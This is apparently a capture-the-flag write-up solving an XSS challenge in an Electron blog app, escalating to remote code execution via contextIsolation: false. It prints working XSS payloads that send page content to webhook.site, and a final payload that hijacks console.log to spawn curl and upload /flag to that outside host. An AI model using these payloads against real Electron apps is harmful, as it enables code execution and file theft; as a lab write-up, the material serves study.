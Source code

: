 ```yaml
---
created: 2024-06-21T22:48
updated: 2024-07-08T00:41
tags:
  - fav
---
```


## Analysis

- Seems to be XSS, but the flag is stored on the file system `/flag`.
- It's an electron app
## Probing

First let's prob it with a bunch of XSS payloads, check fields on `window` etc.

To prevent the script from running on my own computer, I've set a `localStorage` item called `no-go`.

```html
<img src =q onerror="if(!localStorage.getItem('no-go')){
					 window.addEventListener('load', async () => {
	setTimeout(()=>{location='https://webhook.site/?w='+document.body.innerHTML.replace(/\s+/g,'');},1000)
	 });}">

<img src =q onerror="if(!localStorage.getItem('no-go'))window.addEventListener('load', async () => {
	setTimeout(()=>{location='https://webhook.site/?w='+JSON.stringify(Object.keys(window));},1000)
	 });">
	 
<img src =q onerror="if(!localStorage.getItem('no-go'))window.addEventListener('load', async () => {try{
	const replaceWithTypes = obj => Object.fromEntries(Object.entries(obj).map(([k, v]) => [k, [typeof v, typeof v === 'function'?v.toString():v]]));
	location='https://webhook.site/?w='+JSON.stringify(replaceWithTypes(window.__Process$));
	}catch(e){
location='https://webhook.site/?w='+String(e);
}});">
```

```html
<navclass="mb-3navbarnavbar-expand-lgbg-body-tertiary"><divclass="container"><aclass="navbar-brand"href="/">Blog</a></div></nav><divclass="container"><h1class="mb-3">w</h1><divid="content"class="mb-3"><imgsrc="q"onerror="if(!localStorage.getItem('no-go'))window.addEventListener('load',async()=>{setTimeout(()=>{location='https://webhook.site/?w=' document.body.innerHTML.replace(/\s /g,'');},1000)});"></div><formmethod="post"action="/report/cccc208b-9e06-4ed5-8ff3-35ebe90fa330"><buttontype="submit"class="btnbtn-secondary">Report</button></form></div><footerid="admin-footer"class="mt-3p-3bg-light"><divclass="container">Adminconsole<spanid="app-version">0.0.1</span>,Node.js<spanid="node-version">20.11.1</span>,Chromium<spanid="chrome-version">124.0.6367.230</span>,Electron<spanid="electron-version">30.0.8</span>,<spanid="kernel-info">Linux74e6f3ed79eb6.1.92-99.174.amzn2023.x86_64
```

Other than that, nothing interesting.

> `window.__Process$` was just a dummy `process` object with no real use.

---
## Electron RCE

```js
const win = new BrowserWindow({
	width: 800,
	height: 600,
	webPreferences: {
		preload: path.join(__dirname, "preload.js"),
		contextIsolation: false,
		sandbox: false,
	},
});
```

With some googling I found out that `contextIsolation: false` means the renderer runs in the same context, so I am actually running on node's context.

> Failed attempt on prototype pollution
> Tried to pollute `options.shell` `options.file` etc, didn't work.

## Final Solution

```html
<img src =q onerror="if (!localStorage.getItem('no-go')) {
    let s = [];
  	console.log = (cp) => {
	  	if(!cp.spawnfile) return;
	  	const cp2 = new cp.constructor();
		cp2.spawn({ shell: true, file: 'curl', args: ['curl', '-F', 'flag=@/flag', 'https://webhook.site/'] });
		s.push('yay!')
  	};
    window.addEventListener('load', async () => {
        setTimeout(() => {
            let p = (new URLSearchParams({
                kernal: document.getElementById('kernel-info').textContent,
                logs: JSON.stringify(s),
                body: document.body.innerHTML.replace(/\s+/g, ' '),
            })).toString();
            location = 'https://webhook.site/?' + p.toString();
        }, 1000)
    });
}">
```

### Explanation

In `preload.js`

```js
...
const cp = spawn("uname", ["-a"]);
console.log(cp);
...
```

We can see that the child process object is sent to `console.log`, which we can take control over.

So we now have access to `cp`, we will create a new child process object with the command we want to run, and that is `curl`.

```js
const cp2 = new cp.constructor();
cp2.spawn({ shell: true, file: 'curl', args: ['curl', '-F', 'flag=@flag', 'https://webhook.site/'] });
```

### Simplified

```html
<img src =q onerror="{
	console.log = (cp) => {
		if(!cp.spawnfile) return;
		const cp2 = new cp.constructor();
		cp2.spawn({ shell: true, file: 'curl', args: ['curl', '-F', 'flag=@/flag', 'https://webhook.site/'] });
	};
}">
```

```flag
FLAG{r3m07e_c0d3_execu710n_v1a_3l3c7r0n}
```
